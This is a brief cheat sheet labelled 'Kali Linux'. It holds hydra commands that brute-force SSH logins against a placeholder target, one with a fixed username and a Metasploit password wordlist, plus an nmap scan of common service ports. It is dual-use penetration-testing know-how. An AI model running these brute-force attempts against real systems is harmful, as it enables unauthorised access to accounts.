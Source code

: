 ```Kali Linux```


````
hydra -l frjb -P /usr/share/wordlists/metasploit/unix_passwords.txt -u -s 22 IP_ADDRESS_TO_SCAN

hydra -l <username> -P <path/to/wordlist.txt> ssh://<target_ip_address>


nmap IP_ADDRESS_TO_SCAN -p 22,25,80,443,445,3389 --open
````
